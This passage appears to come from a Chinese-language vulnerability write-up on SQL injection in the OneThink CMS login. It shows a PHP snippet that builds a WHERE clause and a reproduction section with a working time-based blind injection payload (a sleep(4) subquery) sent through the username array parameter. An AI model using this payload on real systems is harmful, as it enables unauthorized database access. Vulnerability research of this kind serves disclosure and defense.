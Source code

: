              $whereStr .=  ' ('.$key.' '.strtoupper($val[0]).' '.$this->parseValue($data[0]).' AND '.$this->parseValue($data[1]).' )';
         }

那么确定存在注入问题，这里咱们看看前台登录地址处，具体怎么注入

### 漏洞复现

**payload1-in注入**

    username[]=in ('')) and (select 1 from (select sleep(4))x)--+-&password=2&verify=0x401

![8.png](resource/OneThink前台注入/media/rId32.png)实际执行SQL语句
